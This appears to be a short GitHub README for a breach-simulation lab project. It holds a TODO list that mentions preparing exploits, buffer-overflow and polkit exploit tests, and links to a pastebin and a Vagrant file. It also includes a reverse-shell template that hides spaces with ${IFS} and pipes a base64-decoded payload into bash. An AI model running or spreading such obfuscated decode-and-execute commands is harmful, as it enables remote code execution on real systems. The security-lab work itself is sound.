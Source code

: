 # BAU-project
## TODO
1. Finish UI
2. Nabil create a docker image
3. Prepare exploits
4. Documentation :(
5. Enhance ProgramDownloader and test BoF attack
6. polkit 2022 exploit test
999. after finally ( apt install forensics-all) (optional)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation
```
https://pastebin.com/UycbfwRP
```
### Vagrant file
- This is temporary until everything is finished then i will create a clean public repository with this file as a release 
```
https://drive.google.com/file/d/1SqLbSoCzwea5ZSVQobo-JHz9yslkiKlE/view?usp=sharing
```
